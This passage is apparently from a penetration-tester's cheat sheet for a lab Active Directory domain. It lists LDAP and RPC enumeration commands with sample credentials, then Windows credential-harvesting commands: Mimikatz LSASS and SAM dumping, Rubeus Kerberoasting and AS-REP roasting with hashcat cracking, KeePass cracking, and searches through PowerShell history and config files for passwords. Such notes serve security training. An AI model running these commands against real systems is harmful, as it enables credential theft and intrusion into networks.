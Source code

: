 ##### LDAP
###### Creds:
`ldapsearch -x -H ldap://172.16.250.10 -D 'medtech\wario' -w 'Mushroom!' -b 'DC=MEDTECH,DC=COM'`

##### RPC
###### No Creds:
`rpcclient -U "" -N 10.10.10.X`
###### Creds:
`rpcclient -U "medtech.com/wario%Mushroom!" 172.16.250.10`

---

### 02. Searching for Passwords
#### On Windows
##### Mimikatz [cheatsheet](https://gist.github.com/insi2304/484a4e92941b437bad961fcacda82d49)
**Requires admin permissions**
- `privilege::debug` `token::elevate`
- `sekurlsa::logonpasswords`
	- `ekeys` `credman` `wdigest`
- `lsadump::sam`
	- `secrets`
- `.\mimikatz.exe "token::elevate" "lsadump::secrets" exit`

##### Rubeus
**Requires admin permissions**
**Kerberoasting**
- `.\Rubeus.exe kerberoast /outfile:hashes.kerberoast`
- `sudo hashcat -m 13100 hashes.kerb /usr/share/wordlists/rockyou.txt --force`
**AS-REP Roasting**
- `.\Rubeus.exe asreproast /nowrap`
- `sudo hashcat -m 18200 hashes.asrep /usr/share/wordlists/rockyou.txt --force`

##### Cached Credentials
**Database Files**
- `Get-ChildItem -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue`
- `keepass2john Database.kdbx > Keepasshash.txt`
- `john --wordlist=/usr/share/wordlists/rockyou.txt Keepasshash.txt`
- Move the database to `~/keepass` and interact with `kpcli`

**PowerShell history**
- `Get-History` 
* `(Get-PSReadlineOption).HistorySavePath`
-  `type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt` (Run for each user)

**Interesting Files**
- `cmdkey /list`
- In Users directories `Get-ChildItem -Path C:\Users\ -Include *.txt,*.log,*.xml,*.ini -File -Recurse -ErrorAction SilentlyContinue`
- On Filesystem `Get-ChildItem -Path C:\ -Include *.txt,*.ini -File -Recurse -ErrorAction SilentlyContinue`
- `sysprep.*` `unattend.*`
- `Group Policies` `gpp-decrypt <hash>`
